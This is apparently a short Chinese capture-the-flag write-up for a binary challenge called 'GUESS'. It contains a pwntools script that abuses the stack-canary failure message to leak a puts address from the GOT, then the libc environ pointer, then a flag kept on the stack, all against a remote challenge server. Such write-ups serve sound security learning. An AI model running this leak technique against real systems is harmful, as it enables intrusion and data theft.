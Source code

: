 一道水题。。但是当时我也卡了好久。。
思路就是利用 canary报错泄露地址信息，然后由于flag保存在栈上，泄露出栈地址根据偏移就可以把flag打印出来，这里栈地址在libc的enviro字段里，偏移的话。。说实话我真的需要换一个虚拟机了，起码搞两个版本的
```python
    from pwn import *
    context.log_level = 'debug'
    #io = process('./GUESS')
    io = remote('106.75.90.160', 9999)
    elf = ELF('GUESS')
    libc = ELF('libc6_2.23-.so')
    put = elf.got['puts']
    payload = p64(put)*0x200
    io.recvuntil('flag')
    io.sendline(payload)
    puts = io.recvuntil(': ')
    puts = u64(io.recv()[:6].ljust(8,'\x00'))
    print hex(puts)
    lib_env = puts - libc.symbols['_IO_puts'] + libc.symbols['environ']
    print hex(lib_env)
    t = lib_env +0x5d8
    payload = p64(t)*0x200
    io.recvuntil('flag')
    io.sendline(payload)
    leak = io.recvuntil(': ')
    
    leak = u64(io.recv()[:6].ljust(8,'\x00'))
    
    
    payload = p64(leak- 0x158)*0x200
    io.recvuntil('flag')
    io.sendline(payload)
    leak = io.recvuntil(': ')
    
    io.interactive()

```
